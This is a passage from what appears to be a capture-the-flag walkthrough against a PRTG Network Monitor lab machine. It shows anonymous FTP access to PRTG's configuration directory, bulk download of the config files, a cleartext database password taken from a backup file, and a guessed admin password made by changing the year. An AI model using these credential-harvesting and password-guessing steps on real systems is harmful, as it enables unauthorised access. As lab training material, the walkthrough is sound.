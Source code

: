 I tried the _prtgadmin/prtgadmin_ credentials but that didn’t work.

On further googling, I found that PRTG stores its configuration files in `C:\ProgramData\Paessler`. ( **Source** - [Reddit post](https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/))

As per the Reddit post, there might be some files that contain clear-text credentials. So, let’s move on to FTP to check if we have access to any such files.

```bash
ftp> pwd
257 "/ProgramData/Paessler/PRTG Network Monitor" is current directory.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-17-21 02:41PM <DIR> Configuration Auto-Backups
02-17-21 07:00PM <DIR> Log Database
02-02-19 11:18PM <DIR> Logs (Debug)
02-02-19 11:18PM <DIR> Logs (Sensors)
02-02-19 11:18PM <DIR> Logs (System)
02-18-21 12:00AM <DIR> Logs (Web Server)
02-17-21 07:03PM <DIR> Monitoring Database
02-25-19 09:54PM 1189697 PRTG Configuration.dat
02-25-19 09:54PM 1189697 PRTG Configuration.old
07-14-18 02:13AM 1153755 PRTG Configuration.old.bak
02-18-21 07:29AM 1719684 PRTG Graph Data Cache.dat
02-25-19 10:00PM <DIR> Report PDFs
02-02-19 11:18PM <DIR> System Information Database
02-02-19 11:40PM <DIR> Ticket Database
02-02-19 11:18PM <DIR> ToDo Database
226 Transfer complete.
```

Let’s download everything starting with PRTG in the directory to our attack machine.

```bash
ftp> mget PRTG*
```

On checking these files, we find credentials in the _"PRTG Configuration.old.bak"_ file.

```bash
<dbpassword>
<!-- User: prtgadmin -->
PrTg@dmin2018
</dbpassword>
```

I tried these credentials on the PRTG login page but it didn’t work. However, as it is a backup file from the year 2018. But according to the dates, the _"PRTG Configuration.old"_ file was last modified or created in 2019 and maybe the admin is lazy and re-used the dbpassword for the admin account and simply used the year 2019.

So let’s try the following password -

> **PrTg@dmin2019**
